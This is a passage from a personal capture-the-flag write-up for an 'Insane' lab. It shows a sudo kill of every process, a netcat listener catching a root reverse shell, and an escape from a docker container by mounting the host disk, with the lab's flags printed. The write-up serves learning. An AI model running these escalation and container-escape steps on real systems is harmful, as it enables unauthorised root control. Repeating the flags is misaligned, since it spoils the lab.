root         1  0.0  0.1   3980  2840 pts/0    Ss+  20:02   0:00 /bin/bash /root/start.sh
root        21  0.0  0.2  12164  4320 ?        Ss   20:02   0:00 sshd: /usr/sbin/sshd [listener] 0 of 10-100 startups
root        48  0.0  0.9 195800 19092 ?        Ss   20:02   0:00 /usr/sbin/apache2 -k start
www-data    56  0.0  0.4 196056  8628 ?        S    20:02   0:00 /usr/sbin/apache2 -k start
www-data    57  0.0  0.4 196056  8628 ?        S    20:02   0:00 /usr/sbin/apache2 -k start
www-data    58  0.0  0.4 196056  8628 ?        S    20:02   0:00 /usr/sbin/apache2 -k start
www-data    59  0.0  0.4 196056  8628 ?        S    20:02   0:00 /usr/sbin/apache2 -k start
www-data    60  0.0  0.4 196056  8628 ?        S    20:02   0:00 /usr/sbin/apache2 -k start
root        63  0.0  0.1   5272  3228 pts/0    S+   20:02   0:00 su - cave -c cd /home/cave/src; ./run.sh
cave        64  0.0  0.1   3980  2972 ?        Ss   20:02   0:00 -bash -c cd /home/cave/src; ./run.sh
cave        66  0.0  0.1   3900  2764 ?        S    20:02   0:00 /bin/bash ./run.sh
cave        77  0.0  1.1 2375684 23308 ?       Sl   20:02   0:00 java -cp .:commons-io-2.7.jar RPG
root        87  0.0  0.4  13608  8852 ?        Ss   20:02   0:00 sshd: skeleton [priv]
skeleton   102  0.0  0.2  13884  5276 ?        S    20:03   0:00 sshd: skeleton@pts/1
skeleton   103  0.0  0.1   5996  3868 pts/1    Ss   20:03   0:00 -bash
skeleton   209  0.0  0.1   7636  3212 pts/1    R+   20:17   0:00 ps aux
skeleton@cave:/opt/link$ sudo /bin/kill -9 1 21 48 56 57 58 59 60 63 64 66 77 87 102 103 209
Connection to cave.thm closed by remote host.
Connection to cave.thm closed.                          
```

> Tab 2

```shell
┌──(root㉿kali)-[~/venv]
└─# rlwrap nc -lvnp 1234
listening on [any] 1234 ...
connect to [192.168.152.35] from (UNKNOWN) [10.129.141.50] 32960
root@cave:/#
root@cave:/# cd /root     cd /root
cd /root
root@cave:~# ls           ls
ls
info.txt
start.sh
root@cave:~# cat info.txt cat info.txt
cat info.txt
You were analyzing the invisible wall and after some time, you could see your reflection in the corner of the wall.
But it wasn't just like a mirror, your reflection could interact with the real world, there was a link between you two!
And then you used your reflection to grab a little piece of the root of the tree and you stuck it in the wall with all your might.
You could feel the cave rumbling, like it was the end for you and then all went black.
But after some time, you woke up in the same place you were before, but now there was no invisible wall to stop you from getting in the root.

You are in the root of a huge tree, but your quest isn't over, you still feel ... contained, inside this cave.

Flag:THM{no_wall_can_stop_me}
root@cave:~# 
```
> Looks like we are inside of another docker container, which is implied by `you still feel ... contained`.

```shell
root@cave:~# lsblk        
NAME    MAJ:MIN RM   SIZE RO TYPE MOUNTPOINT
loop0     7:0    0 125.9M  1 loop 
loop1     7:1    0  89.1M  1 loop 
loop2     7:2    0  96.6M  1 loop 
xvda    202:0    0    10G  0 disk 
|-xvda1 202:1    0     1M  0 part 
`-xvda2 202:2    0    10G  0 part /etc/hosts
xvdh    202:112  0     1G  0 disk 
root@cave:~# mkdir /mnt/homkdir /mnt/host
root@cave:~# mount /dev/xvmount /dev/xvda2 /mnt/host
root@cave:~# cd /mnt       
cd /mnt
root@cave:/mnt# ls              
ls
host
root@cave:/mnt# cd host        
cd host
root@cave:/mnt/host# cd root      
root@cave:/mnt/host/root# ls        
info.txt
snap
root@cave:/mnt/host/root# cat info.txt    
You were looking at the tree and it was clearly magical, but you could see that the farther you went from the root, the weaker the magical energy.
So the energy was clearly coming from the bottom, so you saw that the soil was soft, different from the rest of the cave, so you dug down.
After digging for some time, you realized that the root stopped getting thinner, in fact it was getting thicker and thicker.
Suddently the gravity started changing and you grabbed the nearest thing you could get a hold of, now what was up was down.
And when you looked up you saw the same tree, but now you can see the sun, you're finally in the outside.

Flag:THM{digging_down_then_digging_up}
root@cave:/mnt/host/root#
```

---

> Well, it was easily one of the hardest CTFs I've ever done. I had to get some hints and help while doing this, to be honest, but it was worth it. It was my first `Insane` level lab, and I actually did learn new things. Besides all these, I am in love with the concept of this room. It reminded me of that one Black Mirror interactive movie "Bandersnatch" and "Choose or Die" Movie. I recommend you watch both! GOATED!!
